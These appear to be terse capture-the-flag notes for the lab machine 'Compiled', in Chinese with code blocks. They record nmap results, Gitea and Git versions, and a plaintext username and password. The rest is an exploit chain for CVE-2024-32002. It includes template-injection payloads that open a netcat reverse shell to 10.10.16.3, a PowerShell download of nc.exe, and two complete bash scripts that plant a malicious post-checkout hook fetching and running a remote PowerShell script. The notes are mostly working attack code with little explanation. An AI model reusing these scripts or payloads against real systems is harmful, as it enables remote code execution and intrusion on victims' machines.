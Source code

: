 # 服务

```
┌──(root㉿kali)-[~]
└─# nmap -Pn -p- 10.10.11.26
Starting Nmap 7.93 ( https://nmap.org ) at 2024-07-30 04:34 EDT
Stats: 0:11:12 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 5.10% done; ETC: 08:14 (3:28:32 remaining)
Nmap scan report for 10.10.11.26
Host is up (0.31s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE
3000/tcp open  ppp
5000/tcp open  upnp
5985/tcp open  wsman
7680/tcp open  pando-pub

Nmap done: 1 IP address (1 host up) scanned in 5281.61 seconds

```


Powered by Gitea
当前版本: 1.21.6


Server: Werkzeug/3.0.3 Python/3.12.3




Gitea上找到5000端口的源码
![](Compiled_files/1.jpg)


在Calculator项目里得知git的版本为：2.45.0.windows.1
![](Compiled_files/2.jpg)

```
echo "10.10.11.26 gitea.compiled.htb" >> /etc/hosts
```


CVE-2024-32002

max

R2*#?n%V8e4#Hhk



git remote add origin http://10.10.11.26:3000/max/captain.git


git remote add origin http://10.10.11.26:3000/max/hook.git


http://{{config.__class__.__init__.__globals__['os'].popen('mkfifo /tmp/ZTQ0Y; nc 10.10.16.3 443 0</tmp/ZTQ0Y | /bin/sh >/tmp/ZTQ0Y 2>&1; rm /tmp/ZTQ0Y').read()}}.git


http://{{ __import__('os').system('ping -c 1 10.10.16.3') }}.git


echo 'cmd /c ping 10.10.16.3' > .githooks/post-checkout


cat > y/hooks/post-checkout <<EOF
#!/bin/bash
cmd.exe /c ping 10.10.16.3
EOF


powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.16.3/any','C:\windows\temp\nc.exe')"


```
#!/bin/bash

# Set Git configuration options
git config --global protocol.file.allow always
git config --global core.symlinks true
# optional, but I added it to avoid the warning message
git config --global init.defaultBranch main 


# Define the tell-tale path
tell_tale_path="$PWD/tell.tale"

# Initialize the hook repository
git clone http://gitea.compiled.htb:3000/max/hook.git
cd hook
mkdir -p y/hooks

# Write the malicious code to a hook
cat > y/hooks/post-checkout <<EOF
#!bin/sh.exe
powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.16.3/rev.ps1')
EOF

# Make the hook executable: important
chmod +x y/hooks/post-checkout

git add y/hooks/post-checkout
git commit -m "post-checkout"
git remote add origin http://gitea.compiled.htb:3000/max/hook.git
git push -u origin main

cd ..

# Define the hook repository path
hook_repo_path="$(pwd)/hook"

# Initialize the captain repository
git clone http://gitea.compiled.htb:3000/max/captain.git
cd captain
git submodule add --name x/y "$hook_repo_path" A/modules/x
git commit -m "add-submodule"

# Create a symlink
printf ".git" > dotgit.txt
git hash-object -w --stdin < dotgit.txt > dot-git.hash
printf "120000 %s 0\ta\n" "$(cat dot-git.hash)" > index.info
git update-index --index-info < index.info
git commit -m "add-symlink"
git remote add origin http://gitea.compiled.htb:3000/max/captain.git
git push -u origin main
cd ..

```



```
#!/bin/bash
git config --global protocol.file.allow always
git config --global core.symlinks true
git config --global init.defaultBranch main

git clone http://gitea.compiled.htb:3000/chen/hook.git
cd hook
mkdir -p y/hooks
cat > y/hooks/post-checkout <<EOF
#!bin/sh.exe
powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.16.3/rev.ps1')
EOF
chmod +x y/hooks/post-checkout
git add y/hooks/post-checkout
git commit -m "post-checkout"
git push
cd ..
git clone http://gitea.compiled.htb:3000/chen/captain.git
cd captain
git submodule add --name x/y "http://gitea.compiled.htb:3000/chen/hook.git" A/modules/x
git commit -m "add-submodule"
printf ".git" > dotgit.txt
git hash-object -w --stdin < dotgit.txt > dot-git.hash
printf "120000 %s 0\ta\n" "$(cat dot-git.hash)" > index.info
git update-index --index-info < index.info
git commit -m "add-symlink"
git push
```
